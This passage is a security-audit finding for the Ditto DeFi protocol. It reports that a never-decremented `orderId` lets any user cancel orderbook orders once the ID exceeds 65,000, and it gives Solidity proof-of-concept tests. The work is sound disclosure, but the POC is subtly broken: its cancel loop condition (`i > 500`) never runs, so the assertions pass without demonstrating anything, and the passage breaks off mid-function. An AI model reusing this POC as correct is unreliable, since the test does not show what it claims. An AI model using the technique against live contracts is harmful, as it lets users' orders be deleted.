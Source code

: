 ## Summary
Once the `s.asset[asset].orderId`, which in theory represents number of orders in the orderbook surpasses 65_000, any user can call `cancelOrderFarFromOracle()` with the last orderId, and delete the last order until there are no more orders.
## Vulnerability Details
The problem is `s.asset[asset].orderId` isn't decremented in any case in the entire protocol, even when an order is deleted, as is the case in `cancelOrderFarFromOracle()`.   
In any point that the `orderId` surpasses 65_000, either naturally over time, or artificially by a malicious actor in a few blocks creating countless orders, `cancelOrderFarFromOracle()` won't revert even the orders left in the orderbook are 1.

### POC
First, uncomment the console import.   
Replace the [`setOrderIdAndMakeOrders()` at `test/CancelOrder.t.sol`](https://github.com/Cyfrin/2023-09-ditto/blob/a93b4276420a092913f43169a353a6198d3c21b9/test/CancelOrder.t.sol#L191C1-L208C6) with the following code:   
``` solidity
    function setOrderIdAndMakeOrders(O orderType) public {
        vm.prank(owner);
        testFacet.setOrderIdT(asset, 64500); // set this to 64500
        if (orderType == O.LimitBid) {
            for (uint256 i; i < 500; i++) { // set to 500
                console.log(i);
                fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
            }
        } else if (orderType == O.LimitAsk) { // set to 500
            for (uint256 i; i < 500; i++) {
                fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
            }
        } else if (orderType == O.LimitShort) { 
            for (uint256 i; i < 500; i++) { // set tot 500
                fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
            }
        }
        assertEq(diamond.getAssetNormalizedStruct(asset).orderId, 65000); // set this to 65000, now cancelOrderFarFromOracle() doesn't revert
    }
```
Copy-paste the following code at the end of the `test/CancelOrder.t.sol::CancelOrderTest` contract:  
``` solidity
    function testCancelOrderIfOrderIDTooHighBidPOC() public {
        // in setOrderIdT, orderId is set to 65000 artificially
        // we have to create the amount of orders necessary to demonstrate the POC
        setOrderIdAndMakeOrders({orderType: O.LimitBid});
        uint previousOrderId = diamond.getAssetNormalizedStruct(asset).orderId;
        for (uint256 i = 0; i > 500; i++) {
            diamond.cancelOrderFarFromOracle({
                asset: asset,
                orderType: O.LimitBid,
                lastOrderId: uint16(64_499 - i),
                numOrdersToCancel: 1
            });
        }
        console.log("Normal user has been able to remove 500 orders from the orderbook");
        assertEq(diamond.getAssetNormalizedStruct(asset).orderId, 65_000); // s.asset[asset].orderId hasn't changed even 500 orders have been deleted
        assertEq(previousOrderId, 65_000);
        console.log("s.asset[asset].orderId hasn't changed");
    }

    function testCancelOrderIfOrderIDTooHighAskPOC() public {
        setOrderIdAndMakeOrders({orderType: O.LimitAsk});
```